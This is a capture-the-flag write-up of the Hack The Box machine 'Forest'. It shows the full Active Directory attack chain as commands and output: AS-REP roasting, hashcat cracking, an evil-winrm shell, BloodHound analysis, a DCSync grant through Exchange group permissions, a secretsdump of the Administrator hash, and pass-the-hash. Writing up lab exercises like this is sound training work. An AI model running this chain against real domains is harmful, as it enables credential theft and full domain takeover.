 ```yaml
---
target_ip: 10.10.10.161
platform: HTB
difficulty: Easy
os: Windows
date_started: 2025-06-14
status: in_progress
services: ['kpasswd5', 'microsoft-ds', 'msrpc', 'netbios-ssn', 'kerberos-sec', 'domain', 'ldap', 'ncacn_http', 'http', 'tcpwrapped']
techniques_used: []
tools_used: [nmap]
---
```


# Forest

**Platform:** HTB | **Difficulty:** Easy | **OS:** Windows | **Date:** 14/06/2025

## Reconnaissance

```bash
nmap -sC -sV -T4 10.10.10.161 -oA nmap/forest
```

| Port | Service      | Version                                         |
| ---- | ------------ | ----------------------------------------------- |
| 53   | domain       | Simple DNS Plus                                 |
| 88   | kerberos-sec | Microsoft Windows Kerberos                      |
| 135  | msrpc        | Microsoft Windows RPC                           |
| 139  | netbios-ssn  | Microsoft Windows netbios-ssn                   |
| 389  | ldap         | Microsoft Windows Active Directory LDAP         |
| 445  | microsoft-ds | Windows Server 2016 Standard 14393 microsoft-ds |
| 464  | kpasswd5     | N/A                                             |
| 593  | ncacn_http   | Microsoft Windows RPC over HTTP 1.0             |
| 636  | tcpwrapped   | N/A                                             |
| 3268 | ldap         | Microsoft Windows Active Directory LDAP         |
| 3269 | tcpwrapped   | N/A                                             |
| 5985 | http         | Microsoft HTTPAPI httpd 2.0                     |

## Enumeration

I generated and appended a static hostname mapping to `/etc/hosts` to avoid possible DNS resolution issues later on with Kerberos.
```bash
nxc smb '10.10.10.161' --generate-hosts-file files/hosts && sudo tee -a /etc/hosts < files/hosts

tail -n 1 /etc/hosts
10.10.10.161     FOREST.htb.local FOREST
```

LDAP enumeration identified seven active domain users.
```bash
nxc ldap 'FOREST' -u '' -p '' -d 'htb.local' --active-users | awk '{print $5}' | grep -v '^[H,\[,-]' > files/users.txt && cat files/users.txt 


Administrator
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

## Exploitation

Testing the user list for AS-REP roasting revealed account an account `svc-alfresco` with "Do Not Require Kerberos Pre-Authentication" enabled, and thus allowing me to retrieve their password hash.
```bash
nxc ldap 'FOREST' -u files/users.txt  -p '' -d 'htb.local' --asreproast files/roast.txt     

...
LDAP        10.10.10.161    389    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:d92213ff872a80624a412d802a52b446$...
```

The AS-REP hash cracked with `hashcat`, revealing the password `s3rvice`.
```bash
hashcat -m 18200 -a 0 files/roast.txt /usr/share/wordlists/rockyou.txt

...
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b73c81fb8c33164c016884a6be75e669$2beb8c478e9b6f4b0b1ee2aeaba1821f22f189957bf8b9ee4f15f5ac1317a7c3678fd71f9fc0d926a3529dbfed42c26bf119bf475f96a38af3bdb1b0c6085cff57e63015e95b3fec76271c4736df2fb34c46edbca9614f05eee7e8c2c0e524aa2acd07de8a1b17feb7380c29ea75f86f328868bc893b9a36f41ba6f67ff3a02ff4ce1e2784868cc156b91ab5f5aa3a3f91e61fca6b61ab70dbd9e20a0f49a653078d638bf2588ad564c1c91d601cc07f7fc10b0e22f4b5803a0e8540eef8f2e1e9fd3e45525337b6ca0ef27788ae6ef610822c8e0147fd9b39919e8739a872ca3584d7658274:s3rvice
...
```

The credentials worked for WinRM access on port `5985`.
```bash
nxc winrm 'FOREST' -u 'svc-alfresco' -p 's3rvice' -d 'htb.local'

WINRM       10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) 
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

I used `evil-winrm` to get a remote shell on the machine.
```bash
evil-winrm -i 'FOREST' -u 'htb.local\svc-alfresco' -p 's3rvice'

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

The user flag was in `svc-alfresco`'s Desktop.
```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> more ../Desktop/user.txt
```

## Privilege Escalation

SharpHound was already on the machine in the `svc-alfresco` user's home directory. I ran it to enumerate everything on the domain.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco> .\hound.exe -c all --zipfilename loot.zip

...
 118 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-06-14T16:09:59.0652881-07:00|INFORMATION|SharpHound Enumeration Completed at 4:09 PM on 6/14/2025! Happy Graphing!
```

I then downloaded the data to my machine to be ingested into Bloodhound.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco> download 20250614160957_loot.zip
                                        
Info: Downloading C:\Users\svc-alfresco\20250614160957_loot.zip to 20250614160957_loot.zip                  
```

I imported the SharpHound data `20250614160957_loot.zip` into Bloodhound and ran a Custom Cypher Query to view the shortest path from owned principals (`svc-alfresco`) to domain Tier 0:
```
MATCH p = allShortestPaths((u:User)-[:AbuseTGTDelegation|AllowedToDelegate|HasSIDHistory|ADCSESC1|CanPSRemote|HasSession|ADCSESC10a|CanRDP|MemberOf|ADCSESC10b|CoerceAndRelayNTLMToADCS|Owns|ADCSESC13|CoerceAndRelayNTLMToLDAP|OwnsLimitedRights|ADCSESC3|CoerceAndRelayNTLMToLDAPS|ReadGMSAPassword|ADCSESC4|CoerceAndRelayNTLMToSMB|ReadLAPSPassword|ADCSESC6a|CoerceToTGT|SameForestTrust|ADCSESC6b|Contains|SpoofSIDHistory|ADCSESC9a|DCFor|SQLAdmin|ADCSESC9b|DCSync|SyncedToEntraUser|AddAllowedToAct|DumpSMSAPassword|SyncLAPSPassword|AddKeyCredentialLink|ExecuteDCOM|WriteAccountRestrictions|AddMember|ForceChangePassword|WriteDacl|AddSelf|GPLink|WriteGPLink|AdminTo|GenericAll|WriteOwner|AllExtendedRights|GenericWrite|WriteOwnerLimitedRights|AllowedToAct|GoldenCert|WriteSPN*1..]->(b:Base))
WHERE "owned" IN split(u.system_tags, " ")
  AND "admin_tier_0" IN split(b.system_tags, " ")
RETURN p
LIMIT 1000
``` 

Bloodhound revealed that `svc-alfresco` was a part of the "Account Operators" group. This group can create users and add them to most groups, including "Exchange Windows Permissions". The "Exchange Windows Permissions" group has `WriteDACL` permissions on the domain - normally needed for Exchange to work, but it creates a path to DCSync.
![[Pasted image 20250615014133.png]]
To perform the DCSync attack, I firstly created a new credential object and domain user account called "`wither`".
```powershell
$SecPass = ConvertTo-SecureString 'password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\\wither', $SecPass)
New-ADUser -Name "wither" -SamAccountName "wither" -AccountPassword $SecPass -Enabled $true
```

The "Account Operators" membership of `svc-alfresco` allowed me to add `wither` to the "Exchange Windows Permissions" group.
```powershell
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members wither
```

This provided the `WriteDACL` privileges I needed to grant it DCSync rights.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -PrincipalIdentity wither -Rights DCSync -TargetIdentity "DC=htb,DC=local" -Credential $Cred -Verbose

...
Verbose: [Add-DomainObjectAcl] Granting principal CN=wither,CN=Users,DC=htb,DC=local 'DCSync' on DC=htb,DC=local
...
```
>[!info] Important to note, `-Credential` using `wither`'s credential object was vital here for the attack to work, as I needed `Add-DomainObjectAcl` to run under the context of that account (as it was a member of "Exchange Windows Permissions" and thus had permission to modify ACLs) and not `svc-alfresco`.


And therefore to request the `Administrator`'s password hash from the DC using `secretsdump`.
```bash
wither@kali:~/CTF/HTB/Forest/files$ secretsdump.py 'HTB'/'wither':'password'@'FOREST' 

...
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
...
[*] Kerberos keys grabbed
...
[*] Cleaning up...
```

A Pass-the-hash attack with this NTLM hash provided access to the `Administrator` account.
```bash
evil-winrm -i 'FOREST' -u 'htb.local\Administrator' -H 32693b11e6aa90eb43d32c72a07ceea6

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

And allowed me to read the root flag in the `Administrator`'s Desktop.
```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> more ..\Desktop\root.txt
```

## References

- [ASREPRoast \| NetExec](https://www.netexec.wiki/ldap-protocol/asreproast)
- [AS-REP Roasting \| Red Team Notes](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)
- [bloodhoundce-resources/custom\_queries/BloodHound\_CE\_Custom\_Queries.md at main · CompassSecurity/bloodhoundce-resources · GitHub](https://github.com/CompassSecurity/bloodhoundce-resources/blob/main/custom_queries/BloodHound_CE_Custom_Queries.md)
- [HackTricks/windows-hardening/active-directory-methodology/dcsync.md at master · b4rdia/HackTricks · GitHub](https://github.com/b4rdia/HackTricks/blob/master/windows-hardening/active-directory-methodology/dcsync.md)
- [AD Series \| DC Sync Attacks. DCSync Attack is a type of “credential… \| by Urshila Ravindran \| Medium](https://medium.com/@urshilaravindran/ad-series-dc-sync-attacks-e76bb54308f5)

---
#forest #htb #easy #windows #netexec #asreproast #hashcat #evil-winrm #bloodhound #sharphound #dcsync #secretsdump #pass-the-hash
